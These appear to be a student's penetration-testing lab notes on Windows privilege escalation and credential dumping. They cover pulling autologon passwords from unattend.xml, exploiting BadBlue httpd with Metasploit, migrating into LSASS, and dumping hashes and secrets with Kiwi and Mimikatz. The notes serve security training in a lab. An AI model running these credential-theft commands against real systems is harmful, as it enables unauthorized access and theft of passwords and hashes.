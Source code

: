 Do the regular multihandler stuff and execute payload on the target system

Search for unattend config file on target system
```msfconsole
searh -f Unattend.xml 
#takes too long so

cd C:/Windows/Panther
download unattend.xml
```
Find the autologon creds

decode the base64 password (put in a txt or smt)
```bash
base64 -d password.txt
```
Log in as admin
```bash
psexec.py Administrator@10.0.30.247
```



### Hash dumping Mimikatz
- post exploit tool to extract clear-text pw, hashes and kerberos ticket from memory (cashed by LSASS)
- Mimikatz can extract hashes from SAM
- use the Mimikatz.exe or inbuilt meterpreter extension Kiwi
- Elevated privs are required (LSASS requires admin)


Lab:
Badblue httpd 2.7 running has a msf exploit

```msfconsole
search badblue_passthru

#on the compromised session
pgrep lsass
migrate <lsass ps number>

#this shifts from \Administrator to NT AUth\SYSTEM


#kiwi on compromised system
load kiwi
?

creds_all

#provides encrypted NTLM hashes and syskey used for encryption
lsa_dump_sam

#could give clear text pws
lsa_dump_secrets

#using mimikats instead
cd c:\\
mkdir Temp
cd Temp
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe

shell
.\mimikatz.exe

#on the mimikatz shell that spawns in the session
priviledge::debug   --> to see if u have the correct privs to dump from memory

```